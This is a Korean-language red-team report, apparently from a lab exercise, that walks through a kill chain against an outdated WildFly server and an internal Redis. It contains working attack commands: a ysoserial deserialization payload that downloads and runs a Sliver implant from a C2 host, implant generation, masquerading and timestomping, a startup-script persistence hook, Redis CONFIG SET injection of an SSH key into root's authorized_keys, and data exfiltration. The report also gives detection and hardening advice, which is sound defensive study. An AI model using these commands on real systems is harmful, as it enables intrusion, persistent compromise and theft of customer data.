

## 목차

- [0. 공격 시나리오 개요](#0-공격-시나리오-개요)
  - [0.1. 작전 배경 및 개요](#01-작전-배경-및-개요)
  - [0.2. 수행 목적](#02-수행-목적)
  - [0.3. 타겟 시스템 아키텍처 및 공격 경로](#03-타겟-시스템-아키텍처-및-공격-경로)
  - [0.4. 핵심 발견사항 및 비즈니스 영향](#04-핵심-발견사항-및-비즈니스-영향)
  - [0.5. 공격 도구 및 TTPs](#05-공격-도구-및-ttps)
- [1. 정찰](#1-정찰)
  - [1.1. 공격 표면 매핑 및 포트 스캔](#11-공격-표면-매핑-및-포트-스캔)
  - [1.2. 서비스 핑거프린팅 및 취약점 분석](#12-서비스-핑거프린팅-및-취약점-분석)
- [2. 무기화](#2-무기화)
  - [2.1. C2 임플란트 제작 및 난독화](#21-c2-임플란트-제작-및-난독화)
  - [2.2. 페이로드 배포 인프라 구축](#22-페이로드-배포-인프라-구축)
  - [2.3. Java 역직렬화 공격 객체 생성](#23-java-역직렬화-공격-객체-생성)
- [3. 유포](#3-유포)
  - [3.1. 페이로드 주입 및 트리거](#31-페이로드-주입-및-트리거)
  - [3.2. 유포 성공 검증](#32-유포-성공-검증)
  - [3.3. 탐지 및 방어 전략](#33-탐지-및-방어-전략)
- [4. 악용](#4-악용)
  - [4.1. 원격 코드 실행 및 실행 체인](#41-원격-코드-실행-및-실행-체인)
  - [4.2. C2 세션 수립 및 초기 거점 확보](#42-c2-세션-수립-및-초기-거점-확보)
  - [4.3. 초기 권한 및 환경 분석](#43-초기-권한-및-환경-분석)
  - [4.4. 탐지 및 방어 전략](#44-탐지-및-방어-전략)
- [5. 설치](#5-설치)
  - [5.1. 아티팩트 은닉 및 위장](#51-아티팩트-은닉-및-위장)
  - [5.2. 사용자 레벨 지속성 확보](#52-사용자-레벨-지속성-확보)
  - [5.3. 탐지 및 방어 전략](#53-탐지-및-방어-전략)
- [6. 명령 및 제어](#6-명령-및-제어)
  - [6.1. mTLS 기반의 보안 채널 수립](#61-mtls-기반의-보안-채널-수립)
  - [6.2. 하트비트 설정 및 지터 적용](#62-하트비트-설정-및-지터-적용)
  - [6.3. 연결 상태 검증](#63-연결-상태-검증)
  - [6.4. 탐지 및 방어 전략](#64-탐지-및-방어-전략)
- [7. 목적 달성](#7-목적-달성)
  - [7.1. 1단계: 내부 정찰 및 타겟 식별](#71-1단계-내부-정찰-및-타겟-식별)
  - [7.2. 2단계: Redis 악용 및 키 주입](#72-2단계-redis-악용-및-키-주입)
  - [7.3. 3단계: DB 서버 완전 장악](#73-3단계-db-서버-완전-장악)
  - [7.4. 탐지 및 방어 전략](#74-탐지-및-방어-전략)
- [8. 종합 분석 및 권고 사항](#8-종합-분석-및-권고-사항)
  - [8.1. 종합 위협 분석](#81-종합-위협-분석)
  - [8.2. Kill Chain 단계별 방어 실패 분석](#82-kill-chain-단계별-방어-실패-분석)
  - [8.3. 보안 강화 로드맵](#83-보안-강화-로드맵)
  - [8.4. 기술적 세부 권고](#84-기술적-세부-권고)
  - [8.5. 결론](#85-결론)

---

## 0. 공격 시나리오 개요

### 0.1. 작전 배경 및 개요

본 공격 시나리오는 외부 경계 방어선이 **패치되지 않은 레거시 미들웨어(JBoss/Wildfly)**의 취약점으로 인해 돌파당했을 때, 공격자가 어떻게 내부망의 **느슨한 신뢰 관계**와 **서비스 설정 오류**를 발판 삼아 기업의 핵심 자산까지 도달하는지를 증명하는 시나리오다.

공격은 구버전 `jboss/wildfly:10.1.0.Final` 컨테이너의 원격 코드 실행(RCE) 취약점을 통해 시작된다. 공격자는 이를 통해 확보한 웹 서버의 제한된 거점을 **내부망 공격의 피봇 포인트**로 활용하여, 방화벽 뒤에 숨겨진 DB 서버의 Redis 서비스를 공격하고, 최종적으로 시스템 최고 권한(`root`)을 탈취하여 네트워크를 완전히 장악한다.

### 0.2. 수행 목적

본 시나리오는 다음의 핵심 보안 가설을 검증한다.

1.  **레거시 시스템 위험도 실증:** 지원이 종료(EOL)되었거나 패치가 누락된 레거시 미들웨어가 어떻게 현대적인 클라우드 환경의 가장 취약한 침투 경로가 되는가?
2.  **내부망 세그멘테이션 유효성 검증:** DMZ와 내부망(Private) 사이에 NSG 규칙이 존재함에도 불구하고, 허용된 애플리케이션 포트(`6379`)를 통한 수평 이동 공격을 방어할 수 있는가?
3.  **서비스 하드닝 부재의 파급력 분석:** 인증 없이 외부에 노출된 단일 내부 서비스(Redis)의 설정 오류가 어떻게 전체 시스템의 **최고 권한 탈취**라는 최악의 결과로 이어지는가?

### 0.3. 타겟 시스템 아키텍처 및 공격 경로

본 작전은 DMZ와 Private Subnet으로 구성된 `CKCProject`의 표준 다층 아키텍처를 대상으로 하며, 각 티어의 구성은 아래와 같다.

*   **웹 계층 (DMZ Subnet `10.42.2.0/24`):** 외부 로드 밸런서를 통해 8082 포트가 공개된 웹 서버 VMSS가 위치한다. 이 VM 위에서 취약한 `jboss-rce` Docker 컨테이너가 실행 중이다.
*   **DB 계층 (Private Subnet `10.42.3.0/24`):** 인터넷에서 직접 접근이 불가능한 내부망에 핵심 DB 서버가 위치하며, 인증이 비활성화된 Redis 서비스가 실행 중이다.

**타겟 시스템 네트워크 토폴로지**




> 🟠 공격자 · 🔵 감염 시스템 (DMZ) · 🟣 최종 타겟 (내부망)

위 아키텍처에서 공격자는 아래와 같은 구체적인 공격 경로를 통해 레거시 미들웨어 취약점을 시작으로 내부망의 설정 오류를 연쇄적으로 악용하여 최종 목표를 달성했다.

**상세 공격 경로 다이어그램**

```mermaid
sequenceDiagram
    actor A as 🕵️ Attacker
    participant W as 📦 JBoss (DMZ)
    participant R as ⚙️ Redis
    participant D as 🗄️ DB Server

    rect rgb(60, 30, 30)
        Note over A,W: Initial Access
        A->>W: JBoss RCE (CVE-2017-12149)
        W-->>A: Reverse Shell (jboss user)
    end

    rect rgb(30, 30, 60)
        Note over W,R: Lateral Movement
        W->>D: 내부망 스캔 (6379 Open)
        W->>R: Redis 인증 없이 접근
        Note over R: SSH Key 주입 (CONFIG SET)
    end

    rect rgb(50, 20, 50)
        Note over W,D: Privilege Escalation
        W->>D: Root SSH 접속 성공
        D-->>A: DB 서버 장악 완료
    end
```




### 0.4. 핵심 발견사항 및 비즈니스 영향

| 핵심 발견사항 | 근본 원인 | 비즈니스 영향 |
| :--- | :--- | :--- |
| **1. EOL 미들웨어의 인터넷 노출** | 자산 관리 및 취약점 스캐닝 프로세스 부재 | **[운영/평판]** 알려진 치명적 취약점을 통해 손쉽게 초기 침투를 허용. 보안 관리의 기본을 지키지 못했다는 점에서 기업 평판에 직접적인 타격. |
| **2. 내부 서비스 인증 부재** | "내부망은 안전하다"는 암묵적 신뢰 기반의 아키텍처 설계 | **[데이터]** 내부망에 위치한 Redis 서비스의 인증 부재로 인해, 공격자가 손쉽게 DB 서버의 제어권을 탈취하고 데이터를 위변조/파괴할 수 있는 경로 제공. |
| **3. 서비스의 과도한 권한 실행** | Redis 프로세스가 `root` 권한으로 실행되는 최소 권한 원칙 위배 | **[운영/전략]** 단순 서비스 장애로 끝날 수 있었던 침해가 **서버 인프라 전체 장악**으로 격상. 이는 공격자에게 랜섬웨어 배포 등 최악의 공격을 수행할 수 있는 권한을 부여. |

### 0.5. 공격 도구 및 TTPs

본 작전에서 사용된 주요 전술과 도구는 MITRE ATT&CK® 프레임워크에 다음과 같이 매핑된다.

| 전술(Tactic) | 기법(Technique) | 사용 도구(Tools) / 방법 |
| :--- | :--- | :--- |
| **Initial Access** | [T1190] Exploit Public-Facing Application | `curl`, `ysoserial` (Java 역직렬화) |
| **Execution** | [T1059] Command and Scripting Interpreter | `Bash`, Sliver C2 Implant |
| **Persistence** | [T1053.003] Scheduled Task/Job: Cron | `crontab` (User-land) |
| **Defense Evasion** | [T1036.005] Masquerading | `standalone_updater` (파일명 위장) |
| **Discovery** | [T1046] Network Service Scanning | `nmap`, `redis-cli` |
| **Lateral Movement** | [T1210] Exploitation of Remote Services | `redis-cli` (CONFIG SET 악용) |
| **Privilege Escalation**| [T1098] Account Manipulation | `authorized_keys` 파일 변조 |

---

## 1. 정찰

**목표:** 타겟 인프라의 외부 접점인 로드 밸런서를 대상으로 공격 표면을 매핑하고, 배포된 서비스 중 인증 없이 즉각적인 원격 코드 실행(RCE)이 가능한 **JBoss/Wildfly 취약점**을 식별하여 초기 침투 경로를 확보한다.

*   **[T1595.001] Active Scanning:** 포트 및 서비스 스캔을 통한 미들웨어 식별.
*   **[T1592.002] Gather Victim Host Information: Software:** 구동 중인 애플리케이션 버전 및 패치 현황 파악.

### 1.1. 공격 표면 매핑 및 서비스 식별


사전 정찰 결과, 로드 밸런서가 8082 포트를 웹 서버로 전달하도록 설정되어 있음을 인지했다. 이 정보를 바탕으로, 해당 포트에 어떤 서비스가 실행 중인지 정밀하게 식별하기 위해 `nmap`의 서비스 버전 탐지(-sV) 스캔을 수행했다.

```bash
nmap -sV -p $JBOSS_PORT -Pn $TARGET_LB
```

**[참고] 공격 환경 변수 설정**
본격적인 공격에 앞서, 타겟 IP와 포트 정보를 환경 변수로 설정하여 공격의 효율성을 높였다.


**[분석 결과]**
스캔 결과, 8082 포트는 **`WildFly 10.1.0.Final`** (구 JBoss EAP) 애플리케이션 서버임이 확인되었다.


### 1.2. 취약점 분석 및 공격 벡터 선정

식별된 `WildFly 10.1.0.Final`은 2016년에 출시된 구버전으로, 심각한 **Java 역직렬화 RCE 취약점(CVE-2017-12149)**에 노출되어 있을 가능성이 매우 높다. 공격자는 이 가설을 검증하기 위해, 해당 취약점의 트리거가 되는 특정 엔드포인트의 존재 여부를 확인했다.

```bash
# 취약한 엔드포인트(/invoker/JNDIFactory)의 존재 여부 확인
curl -I http://$TARGET_LB:$JBOSS_PORT/invoker/JNDIFactory
```


*   **응답 코드:** `HTTP/1.1 200 OK`
*   **분석:** `404 Not Found`가 아닌 `200 OK` 응답이 반환되었다. 이는 해당 엔드포인트가 존재하며 접근 가능한 상태임을 의미한다. CVE-2017-12149 취약점에 노출되어 있을 가능성이 높다고 판단했다.
*   **결론:** 이 취약점은 인증 과정 없이 악용 가능하므로, 복잡한 웹 해킹 단계를 건너뛰고 서버 제어권을 탈취할 수 있는 경로로 판단하여 익스플로잇 단계로 전환하기로 결정했다.


---

## 2. 무기화

**목표:** 식별된 WildFly 역직렬화 취약점을 통해 타겟 컨테이너에서 코드를 실행하고, 방화벽을 우회하여 안정적인 C2 채널을 수립하기 위한 **다단계 공격 페이로드**를 제작한다.

*   **[T1587.001] Develop Capabilities: Malware:** 타겟 환경에 최적화된 C2 임플란트(Sliver) 제작.
*   **[T1608.002] Stage Capabilities: Upload Tool:** 페이로드 배포를 위한 스테이징 서버 구축.

### 2.1. C2 임플란트 및 스테이징 서버 구축

안정적인 제어권 확보를 위해 단순 Netcat 셸이 아닌, **Sliver C2 Framework**를 사용하여 **mTLS 기반의 암호화된 비콘**(`implant.elf`)을 제작했다.

```bash
# mTLS 리스너 시작
sliver > mtls -l 8888
[*] Starting mTLS listener ...
[*] Successfully started job #3
```


```bash
# 임플란트 생성
sliver > generate --mtls hamap.shop:8888 --os linux --arch amd64 --save /tmp/implant.elf
[*] Generating new linux/amd64 implant binary
[*] Implant saved to /tmp/implant.elf
```


### 2.2. 스테이징 인프라 구축


Java 역직렬화 공격 시, 수 메가바이트(MB)에 달하는 C2 임플란트 전체를 HTTP 요청 Body에 담아 보내는 것은 비효율적이고 실패 확률이 높다. 따라서 공격자는 **다운로더** 방식의 2단계 공격을 설계했다.

1.  **Staging Server:** 공격자의 인프라에 경량 웹 서버(Python HTTP)를 구동하여 C2 임플란트(`implant.elf`)를 호스팅한다.


2.  **Delivery Logic:** 다음 단계에서 생성할 `ysoserial` 페이로드에는 C2 임플란트 자체가 아닌, 이 스테이징 서버에서 임플란트를 **다운로드하여 실행(`wget ...; chmod ...; ./...`)**하는 간단한 셸 명령어만 포함시킨다.

### 2.3. Java 역직렬화 공격 객체 생성

JBoss 서버가 페이로드를 역직렬화하는 순간, 시스템 명령어를 실행하도록 유도하는 **악성 페이로드**를 제작했다. 이를 위해 **`ysoserial`** 도구와 `WildFly 10`에 포함된 `Apache Commons Collections` 라이브러리를 악용하는 **`CommonsCollections5`** 가젯 체인을 사용했다.

```bash
# ysoserial을 사용하여 악성 직렬화 객체(payload.ser) 생성
# 실행 명령: C2 스테이징 서버에서 임플란트를 다운로드하여 실행
java -jar ~/exploits/ysoserial.jar CommonsCollections5 \
  "wget -q http://$C2_SERVER:8000/implant.elf -O /tmp/implant.elf; chmod +x /tmp/implant.elf; /tmp/implant.elf &" \
  > /tmp/payload.ser
```


이 `payload.ser` 파일이 다음 단계에서 JBoss 서버로 전송될 페이로드이다.

**Gadget Chain 선정**
`ysoserial`은 다수의 가젯 체인을 제공했다. 공격자는 타겟인 `WildFly 10.1.0.Final`의 클래스패스에 **`Apache Commons Collections`** 라이브러리가 기본적으로 포함되어 있음을 사전에 파악했다. 따라서 해당 라이브러리의 취약한 클래스를 악용하는 **`CommonsCollections5`** 가젯 체인을 선택했다. 이는 타겟 환경에 대한 정확한 이해를 바탕으로 익스플로잇 성공률을 극대화하기 위한 전술적 결정이었다.

---

## 3. 유포

**목표:** 무기화된 악성 직렬화 객체(`payload.ser`)를 타겟 JBoss 컨테이너의 취약한 엔드포인트로 전송하여, 애플리케이션이 스스로 C2 임플란트를 다운로드하도록 유도한다.

*   **[T1190] Exploit Public-Facing Application:** 취약한 웹 애플리케이션에 악성 데이터 주입.
*   **[T1105] Ingress Tool Transfer:** 타겟이 스스로 악성 도구를 다운로드하게 유도.

### 3.1. 페이로드 주입 및 트리거

`curl`의 `--data-binary` 옵션을 사용하여, 생성된 `payload.ser` 파일을 데이터 손실 없이 JBoss 컨테이너의 `/invoker/JNDIFactory` 엔드포인트에 HTTP POST Body로 전송했다.

```bash
curl http://$TARGET_LB:$JBOSS_PORT/invoker/JNDIFactory --data-binary @payload.ser
```

**[Alternative Method: 자동화 도구 활용]**
수동 공격 외에도, **JexBoss**와 같은 자동화 도구를 사용하여 취약점을 스캔하고 익스플로잇을 진행할 수도 있다. 이 경우 웹셸까지 자동으로 배포가 가능하다.


JexBoss를 통해 취약점이 확인되면, 자동으로 익스플로잇을 수행하고 웹셸을 획득할 수 있다.


### 3.2. 유포 성공 검증


이러한 Blind RCE 공격은 HTTP 응답만으로는 성공 여부를 확신할 수 없다. 따라서 공격자는 **C2 스테이징 서버의 접근 로그**를 모니터링하여 유포 성공 여부를 검증했다.

```bash
# 스테이징 서버 로그
10.42.2.4 - - [25/Nov/2025 15:30:05] "GET /implant.elf HTTP/1.1" 200 -
```
**분석:** 타겟의 내부 IP(`10.42.2.4`)로부터 `/implant.elf` 파일에 대한 `GET` 요청이 성공적으로 수신되었다. 이는 `wget` 명령어가 타겟 컨테이너 내부에서 실행되었음을 확인할 수 있다.

### 3.3. 탐지 및 방어 전략

*   **네트워크 침입 탐지 (WAF/IDS):**
    *   **Signature 1:** HTTP Request Body에서 Java 직렬화 객체의 매직 바이트(`AC ED 00 05`)가 포함된 패킷을 탐지하고 차단해야 한다.
    *   **Signature 2:** URL 경로에 `/invoker/JNDIFactory`와 같이 알려진 취약한 엔드포인트로 향하는 POST 요청에 대해 고위험 경보를 생성해야 한다.
*   **아웃바운드 필터링:**
    *   **Anomaly:** 웹 서버(DMZ)가 업무와 무관한 외부의 낯선 IP/포트로 실행 파일(.elf)을 다운로드하는 행위는 명백한 침해 지표(IoC)이다. 모든 비인가 아웃바운드 연결은 기본 차단되어야 한다.

---

## 4. 악용

**목표:** JBoss 컨테이너 내부에서 실행된 C2 임플란트를 통해 공격자 서버로 **콜백** 연결을 수립하고, **초기 침투**를 완료하여 내부망 공격을 위한 첫 번째 거점을 확보한다.

*   **[T1210] Exploitation of Remote Services:** 원격 서비스의 취약점을 이용한 코드 실행.
*   **[T1033] System Owner/User Discovery:** 침투 직후 사용자 및 권한 식별.

### 4.1. C2 세션 수립 및 초기 거점 확보

타겟 컨테이너 내부에서 실행된 `implant.elf`는 즉시 공격자의 Sliver C2 서버로 콜백 연결을 시도했고, 성공적으로 mTLS 암호화 세션이 수립되었다.

```bash
# Sliver C2 콘솔
[*] Session 0a0d2000 VISITING_FAME - 10.42.x.x:51234 - linux/amd64

sliver > sessions

 ID          Transport   Remote Address       Hostname              Username   Operating System   Last Check-in
==========  =========== ==================== ===================== ========== ================== ===============
 0a0d2000    mtls        10.42.x.x:51234       9084ac4e9f90          root       linux/amd64        2s ago
```


### 4.2. 초기 권한 및 환경 분석

획득한 세션을 통해 현재 장악한 환경의 정보를 수집했다.


```bash
[server] sliver (VISITING_FAME) > shell
? This action is bad OPSEC, are you an adult? Yes
[*] Starting interactive shell...

root@9084ac4e9f90:/opt# whoami
root
root@9084ac4e9f90:/opt# id
uid=0(root) gid=0(root) groups=0(root)
```


**권한 분석**
*   **사용자:** 현재 권한은 컨테이너 내부의 **`root`**이다.
*   **제한 사항:** 컨테이너 내부에서는 최고 권한이지만, 호스트 VM에 대한 직접적인 제어 권한은 없으며 컨테이너 내부에 격리되어 있다.
*   **다음 단계:** 따라서 다음 목표는 이 컨테이너를 **내부망 스캐닝을 위한 피봇 포인트**로 활용하여, 네트워크적으로 접근 가능한 다른 취약한 서비스를 찾아 수평 이동하는 것으로 설정되었다.

### 4.3. 방어 회피 분석

본 공격 체인은 여러 단계에 걸쳐 최신 방어 시스템을 우회하도록 설계되었다.

*   **시그니처 기반 WAF 우회:** 악성 페이로드는 일반적인 웹 공격 패턴이 아닌, **바이너리 형태의 직렬화된 Java 객체**로 전송되었다. 이는 시그니처 기반의 웹 방화벽(WAF)이 탐지하기 매우 어려운 형태였다.
*   **SSL/TLS 트래픽 감시 무력화:** 2차 페이로드인 C2 임플란트는 **mTLS 기반**으로 통신했다. 이는 중간에서 SSL 트래픽을 복호화하여 검사하는 차세대 방화벽(NGFW)의 감시를 무력화시키는 효과를 가졌다.
*   **내부망 모니터링 공백 악용:** Redis 악용은 **허용된 포트(6379)와 정상적인 프로토콜**을 사용했다. 내부 트래픽(East-West)에 대한 행위 기반 분석 체계가 없다면, 이 트래픽은 정상적인 애플리케이션 통신으로 오인될 수밖에 없었다.

---

## 5. 설치

**목표:** 초기 침투로 확보한 컨테이너 내부의 C2 세션은 컨테이너가 재시작되거나 삭제되면 소멸된다. 공격자는 현재 확보한 **`jboss` 사용자 권한 범위 내**에서 생존 가능성을 높이고, 후속 공격을 안정적으로 수행하기 위한 **사용자 레벨 지속성** 메커니즘을 구축한다.

*   **[T1053.003] Scheduled Task/Job: Cron:** `root` 권한 없이 사용자 레벨에서 작업을 스케줄링.
*   **[T1036.005] Masquerading:** 정상적인 애플리케이션 파일명으로 위장.
*   **[T1070.006] Indicator Removal: Timestomping:** 파일 타임스탬프 변조를 통한 포렌식 분석 회피.

### 5.1. 아티팩트 은닉 및 위장


`/tmp` 디렉터리는 시스템 재부팅 시 내용이 삭제되고 보안 모니터링의 주요 감시 대상이다. 따라서 C2 임플란트(`implant.elf`)를 `jboss` 사용자의 홈 디렉터리 내 **숨겨진 경로**로 이동시키고, 파일명을 JBoss 관련 내부 유틸리티처럼 보이는 **`standalone_updater`**로 변경했다.

```bash
# Sliver 대화형 셸
# 1. 은닉 디렉터리 생성 및 파일 이동 (파일명 위장)
$ mkdir -p /opt/jboss/wildfly/.config/
$ mv /tmp/implant.elf /opt/jboss/wildfly/.config/standalone_updater
```


추가적으로, `touch` 명령어를 사용하여 악성 파일의 생성/수정 시간(MAC 타임)을 시스템의 정상 파일(`/bin/ls`)과 동일하게 변조했다. 이는 포렌식 분석가가 "최근 생성된 파일"을 기준으로 타임라인 분석을 수행할 때 탐지를 회피하기 위한 **안티 포렌식** 기법이다.

```bash
# 2. Timestomping: 정상 시스템 파일(/bin/ls)의 타임스탬프 복제
$ touch -r /bin/ls /opt/jboss/wildfly/.config/standalone_updater

# 3. 변조 결과 확인 (파일 날짜가 과거로 변경됨)
$ ls -l /opt/jboss/wildfly/.config/standalone_updater
-rwxr-xr-x 1 jboss jboss 2.5M Feb 07  2022 /opt/jboss/wildfly/.config/standalone_updater
```


**안티 포렌식 기법 'Timestomping'**
`touch -r /bin/ls ...` 명령어는 고도로 계산된 **안티 포렌식** 기법이다. 공격자는 악성 파일의 시간을 시스템 핵심 바이너리의 시간으로 위조함으로써, 타임라인 분석에서 자신의 흔적을 숨기고 초기 침투 시점을 위장하여 조사관에게 혼란을 준다.

### 5.2. 사용자 레벨 지속성 확보


현재 `jboss` 계정은 `root` 권한이 없으므로 시스템 서비스(Systemd)를 등록할 수 없다. 대신, 컨테이너가 시작될 때 자동으로 실행되는 **시작 스크립트(`run.sh`)**에 악성 명령어를 삽입하여 지속성을 확보했다.

```bash
# JBoss 시작 스크립트에 백그라운드 실행 명령 추가
$ echo "/opt/jboss/wildfly/.config/standalone_updater &" >> /opt/jboss/wildfly/bin/run.sh
```


이 설정으로 인해 컨테이너가 재시작되더라도, `run.sh`가 실행되면서 C2 세션이 자동으로 복구된다.

---

## 6. 명령 및 제어

**목표:** 5단계에서 설치한 지속성 메커니즘을 통해 C2 서버와의 **안정적이고 은밀한 통신 채널**을 유지하고, 이를 기반으로 내부망 정찰 및 수평 이동을 위한 명령을 전달한다.

*   **[T1071.001] Application Layer Protocol: Web Protocols:** HTTPS/TLS를 이용한 트래픽 위장.
*   **[T1573.002] Encrypted Channel: Asymmetric Cryptography:** mTLS를 통한 페이로드 보호.

### 6.1. mTLS 기반의 보안 채널 수립

5단계에서 설치된 지속성 메커니즘에 의해 실행된 C2 임플란트는 C2 서버로 콜백을 시도하여, mTLS 기반의 양방향 암호화 채널을 성공적으로 수립했다. 이 채널은 외부에서 감청이 불가능하다.

### 6.2. 하트비트 설정 및 지터 적용

**비콘 탐지 회피**
고정된 주기로 통신하는 '하트비트'는 네트워크 트래픽 분석(NTA) 솔루션에 쉽게 탐지된다. 이를 회피하기 위해 C2 임플란트에 **30초의 Jitter(무작위 편차)**를 설정하여, 실제 통신이 비정형적인 간격으로 발생하도록 했다.

```bash
# 60초 간격, 30초 지터 적용
reconfig -i 60s -j 30s
```


### 6.3. 연결 상태 검증

공격자는 확보한 C2 셸을 통해 타겟 컨테이너 내부의 네트워크 연결 상태를 확인하여, 백도어가 정상적으로 동작하고 아웃바운드 방화벽을 우회했음을 검증했다.

```bash
# 피해자 셸
$ netstat -antp | grep standalone_updater
tcp   0   0 10.42.2.4:49152   ATTACKER_C2_IP:8888   ESTABLISHED 24102/standalone_up
```

### 6.4. 탐지 및 방어 전략

*   **네트워크 트래픽 분석 (NTA/NDR):**
    *   **Beaconing Detection:** Jitter가 적용되었더라도, 장기간 동일한 외부 IP와 주기적인 통신을 유지하는 흐름을 머신러닝 기반으로 탐지해야 한다.
    *   **JA3/JA3S Fingerprinting:** 일반적인 웹 브라우저나 Java 클라이언트가 아닌, Sliver/Go 언어 특유의 TLS 핸드셰이크 핑거프린트를 식별하여 차단해야 한다.
*   **아웃바운드 필터링:** **가장 효과적인 방어책**으로, 서버 팜에서는 승인된 도메인(Allowlist) 외의 모든 아웃바운드 연결을 기본 차단해야 한다.

---

## 7. 목적 달성

**목표:** 확보된 웹 서버 컨테이너(DMZ)를 내부망 공격의 발판으로 삼아 내부 DB 서버를 탐색하고, **Redis 서비스의 설정 오류**를 악용하여 시스템의 **최고 권한 탈취**를 획득함으로써 네트워크를 장악한다.

*   **[T1046] Network Service Scanning:** 내부망 서비스 식별.
*   **[T1210] Exploitation of Remote Services:** Redis 설정 오류 악용.
*   **[T1098] Account Manipulation:** SSH 자격 증명(`authorized_keys`) 변조.
*   **[T1021.004] Remote Services: SSH:** 탈취한 키를 이용한 수평 이동.

### 7.1. 1단계: 내부 정찰 및 타겟 식별

공격자는 장악한 JBoss 컨테이너(`10.42.2.4`)를 내부 정찰의 전초기지로 활용했다. Terraform의 NSG 규칙(`AllowDBFromDMZ`)에 따라 DMZ에서 Private Subnet으로의 DB 관련 포트(3306, 6379) 접근이 허용되어 있을 것이라 가정하고, `10.42.3.0/24` 대역으로 정밀 스캔을 수행했다.

```bash
# Sliver 대화형 셸
# Redis 포트(6379) 오픈 여부 확인
root@9084ac4e9f90:/opt# cat < /dev/tcp/10.42.3.4/6379
(Connection Open)
```


**[발견 사항]**
DB 서버(`10.42.3.4`)에서 MySQL(3306) 외에 **Redis(6379)** 포트가 개방되어 있음을 식별했다.

추가적인 검증을 위해 `PING` 명령을 전송한 결과, 인증 없이 `PONG` 응답을 받아 취약점을 확정했다.


Redis는 **인증 없이 외부 접속(`bind 0.0.0.0`, `protected-mode no`)을 허용**하도록 취약하게 설정되어 있어 공격 대상으로 선정했다.

### 7.2. 2단계: Redis 악용 및 SSH 키 주입


인증 없는 Redis가 `root` 권한으로 실행 중일 경우, 파일 저장 경로를 임의로 변경하여 시스템의 어떤 파일이든 덮어쓸 수 있다. 공격자는 이 취약점을 악용하여, **공격자의 SSH 공개키**를 DB 서버의 **`/root/.ssh/authorized_keys` 파일에 주입**하는 전략을 실행했다.

```bash
# JBoss 컨테이너 셸
# 1. 공격자의 SSH 공개키 준비
$ cat attacker_key.pub
ssh-rsa AAAAB3NzaC1yc2E...
```

공격자는 사전에 생성한 SSH 키 쌍 중 공개키를 확인했다.


```bash
# 2. 공격자의 SSH 공개키를 Redis에 값으로 저장
$ (echo -e "\n\n"; cat attacker_key.pub; echo -e "\n\n") | redis-cli -h 10.42.3.4 -x set ssh_key
OK
```


이어서 Redis의 설정을 변경하여 이 키를 `authorized_keys` 파일로 저장했다.

```bash
# 2. Redis 설정 변경 및 저장 (Memory to Disk)
$ redis-cli -h 10.42.3.4 config set dir /root/.ssh/
$ redis-cli -h 10.42.3.4 config set dbfilename "authorized_keys"
$ redis-cli -h 10.42.3.4 save
OK
```

**[공격 체인 심층 분석]**
이 4단계 명령어 체인은 Redis의 기능을 악용하여 원격으로 파일을 쓰는 정교한 공격입니다.
*   **1단계 (`SET`):** 공격자의 SSH 공개키를 Redis 메모리에 `ssh_key`라는 이름의 값으로 저장한다.
*   **2~3단계 (`CONFIG`):** 저장할 디렉터리와 파일명을 `/root/.ssh/authorized_keys`로 변경한다. 이는 `root` 권한으로 실행 중이기에 가능하다.
*   **4단계 (`SAVE`):** 현재 메모리 상태를 디스크에 강제로 저장하여, ssh_key 값이 포함된 파일이 생성되도록 한다.

### 7.3. 3단계: 수평 이동 및 DB 서버 완전 장악

키 주입 성공 후, 공격자는 웹 서버 컨테이너에서 DB 서버(`10.42.3.4`)의 **`root` 계정**으로 SSH 접속을 시도했다.

```bash
# JBoss 컨테이너 셸
# 주입한 개인키(attacker_key)를 사용하여 DB 서버의 root 계정으로 접속
$ ssh -i attacker_key root@10.42.3.4
...
root@CKCProject-db-vm:~# id
uid=0(root) gid=0(root) groups=0(root)
```


**결과:** 내부망 서비스의 설정을 악용하여 시스템 최고 권한(`root`)을 획득했다.

### 7.3.1. 중요 데이터 식별 및 유출

DB 서버를 장악한 공격자는 Redis에 평문으로 저장된 DB 자격 증명을 발견하고, 이를 이용해 실제 고객 데이터를 덤프하여 외부로 유출했다.

**1. DB 자격 증명 발견**
Redis 키를 조사하던 중, 개발자가 실수로 남겨둔 DB 접속 정보를 발견했다.


**2. 데이터 덤프**
획득한 자격 증명(`root`/`root`)을 사용하여 `customer_db`를 압축 파일로 덤프했다.


**3. 데이터 유출**
덤프된 파일은 Sliver의 포트 포워딩과 SCP를 통해 공격자의 C2 서버로 전송되었다.


**4. 데이터 유출 확인**
개인정보가 포함된 고객 데이터임이 확인되었다.


**[비즈니스 영향 평가]**
DB 서버의 `root` 권한을 확보한 공격자는 다음과 같은 최악의 비즈니스 피해를 유발할 수 있다.

1.  **전사적 랜섬웨어 배포:** DB 서버를 기점으로 내부망의 다른 서버들로 랜섬웨어를 확산시켜 기업의 모든 디지털 자산을 암호화할 수 있다.
2.  **데이터 무결성 파괴:** 고객 데이터나 금융 거래 기록을 몰래 위변조하여 서비스의 신뢰도를 근본적으로 파괴할 수 있다.

### 7.4. 탐지 및 방어 전략

*   **마이크로 세그멘테이션:** **가장 중요한 방어책**으로, 웹 서버 서브넷(`10.42.2.0/24`)에서 DB 서버의 관리 포트(`6379`, `22`)로 향하는 트래픽은 NSG/Firewall에서 원천적으로 **Deny** 처리되어야 한다. 웹 서버는 오직 DB 포트(`3306`)에만 접근할 수 있어야 한다.
*   **Redis 보안 강화(하드닝):**
    *   `bind 127.0.0.1`로 설정하여 외부 접속을 차단하고, `requirepass`를 설정하여 강력한 인증을 강제해야 한다.
    *   Redis 데몬은 절대 **Root** 권한이 아닌, 전용 계정(`redis`)으로 구동하여 파일 시스템 쓰기 권한을 제한해야 한다.
*   **파일 무결성 모니터링 (FIM):** `/root/.ssh/authorized_keys` 파일이 허가 없이 변경되는 이벤트를 실시간으로 모니터링하고 즉시 경고해야 한다.

---

## 8. 종합 분석 및 권고 사항

### 8.1. 종합 위협 분석: "레거시의 틈새와 내부망의 무방비"

본 공격 시나리오는 **"외부의 작은 틈이 내부의 구조적 결함과 만나면 시스템 전체 붕괴로 이어진다"**는 보안의 나비 효과를 실증하였다. 공격자는 고난이도의 제로데이 공격이 아닌, 관리되지 않은 **구형 미들웨어**와 보안 설정이 누락된 **내부 서비스**를 연계하여 최고 권한을 탈취했다.

